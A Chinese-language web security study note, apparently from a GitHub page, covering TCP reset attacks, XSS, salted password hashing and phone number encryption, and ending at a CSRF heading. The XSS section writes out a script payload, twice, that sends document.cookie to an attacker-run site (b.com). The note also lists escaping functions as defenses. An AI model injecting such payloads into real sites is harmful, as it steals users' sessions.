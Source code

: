 ## [TCP 重置攻击](https://mp.weixin.qq.com/s/crgraQv6qQ-aVJd9L2u1eg)

* 正常情况下，如果客户端收发现到达的报文段对于相关连接而言是不正确的，TCP 就会发送一个重置报文段，从而导致 TCP 连接的快速拆卸
* 在 TCP 重置攻击中，攻击者通过向通信的一方或双方发送伪造的消息，告诉它们立即断开连接，从而使通信双方连接中断
* 一般情况下这种攻击只对长连接有杀伤力

## XSS (Cross Site Script)跨站脚本攻击

* 恶意攻击者往 Web 页面里插入恶意 html 代码，当用户浏览该页之时，嵌入的恶意 html 代码会被执行，从而达到恶意用户的特殊 目的

* XSS 属于被动式的攻击，因为其被动且不好利用，所以许多人常呼略其危害性。但是随着前端技术的不断进步富客户端的应用越来越多，这方面的问题越来 越受关注

* 举个简单例子 ： 假如你现在是 sns 站点上一个用户，发布信息的功能存在漏洞可以执行 js 你在 此刻输入一个 恶意脚本，那么当前所有看到你新信息的人的浏览器都会执行这个脚本弹出提示框 （很爽吧 弹出广告 ：）），如果你做一些更为激进行为呢 后果难以想象。

* 在页面执行你想要的js.理论上，所有可输入的地方没有对输入数据进行处理的话，都会存在XSS漏洞，漏洞的危害取决于攻击代码的威力，攻击代码也不局限于script。

* DOM Based XSS漏洞

  - 获取cookies(对http-only没用)
    + Tom注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：<http://www.a.com?content>=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！

* Stored XSS漏洞

  - a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功！

* 控制用户的动作(发帖、私信什么的)

* 解决方案

  - htmlspecialchars函数
  - htmlentities函数
  - HTMLPurifier.auto.php插件
  - RemoveXss函数（百度可以查到）

## 储存用户数据

* 后端不应该以任何明文或可以转换回明文（如可逆的加密）的形式储存密码。由于储存的信息并不是明文，所以大多数网站的「找回密码」功能并不能真的告诉你密码，只能让你重新设置一次。
* MD5哈希:用户注册时，把他的密码做一次MD5运算储存起来；用户登录时，把他输入的密码做一次MD5运算，再验证是否和数据库里储存的一致。
  - 应付不了彩虹表的攻击方式:彩虹表就是把简单的数字密码组合（和各种常见密码）的哈希先尽可能的计算出来，这些明文和哈希结果的对应关系就是一张彩虹表
* 加盐哈希
  - 用户注册时，给他随机生成一段字符串，这段字符串就是盐（Salt）
  - 把用户注册输入的密码和盐拼接在一起，叫做加盐密码
  - 对加盐密码进行哈希，并把结果和盐都储存起来
  - 登陆时，先取出盐，再同样进行拼接、计算哈希，就能判断密码的合法性
* 手机号:只能用相对安全的做法，即先对手机号进行对称加密，再将加密结果储存在数据库里；使用时再用密钥解开。
  - 密钥不应该被保存在数据库里。如果数据库被拖库，那么些数据的安全性与明文无异。通常会将密钥以环境变量的形式放在服务器上。这时除非网站在被拖库的情况下同时被拿到服务器权限

## CSRF (Cross Site Request Forgery)跨站点伪造请求
